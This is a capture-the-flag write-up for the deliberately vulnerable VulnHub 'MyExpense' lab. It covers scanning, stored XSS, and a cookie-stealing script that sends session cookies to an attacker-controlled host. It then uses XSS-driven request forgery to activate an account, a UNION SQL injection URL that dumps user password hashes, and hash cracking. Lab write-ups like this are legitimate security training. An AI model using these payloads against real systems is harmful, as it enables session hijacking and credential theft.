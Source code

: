 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/"}
---
```


From description we have the credentials
samuel/fzghn4lw
# Scan
General scan
PORT      STATE SERVICE REASON
```
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
```
# Port 80
## Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
## Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.

## /admin/admin.php
![Pasted image 20240703173824.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![Pasted image 20240703174158.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![Pasted image 20240703175002.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![Pasted image 20240703175519.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175519.png)
And delete the disable part.
![Pasted image 20240703175631.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175631.png)
Now the button is enable and we can create the new account.
![Pasted image 20240703175654.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175654.png)
We are in the system with an inactive account.
![Pasted image 20240703175913.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![Pasted image 20240703180410.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180410.png)
Check the admin panel and we have a XSS.
![Pasted image 20240703180550.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180550.png)
# XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

## Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

# XSRF
Activate account
Trying another way, if we try to activate the account we have.
![Pasted image 20240704171243.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![Pasted image 20240704171856.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![Pasted image 20240704172227.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![Pasted image 20240704172450.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![Screenshot_20240704_181923.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![Screenshot_20240704_182401.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

# SQLi
We break the query adding this.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_184024.png)
Now get the information from db
## DB names
information_schema,myexpense,mysql,performance_schema
## myexpense DB
expense,message,site,user
### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

## Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

# Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205514.png)

# Flag
Login as Samuel and get the flag.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205739.png)